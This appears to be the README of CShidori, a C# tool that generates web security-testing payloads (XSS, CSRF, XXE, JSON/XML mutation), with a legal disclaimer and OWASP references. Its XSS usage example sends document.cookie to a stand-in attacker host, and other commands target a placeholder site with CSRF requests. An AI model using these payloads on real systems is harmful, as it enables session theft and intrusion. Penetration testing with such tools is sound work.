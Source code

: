 # CShidori

A C# "Thousand Birds" Payloads Generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

Taisen: [Website](https://taisen.fr)

## Supported modes and payloads

- Mutation
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Encoding
- List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe
```
### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m dump
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
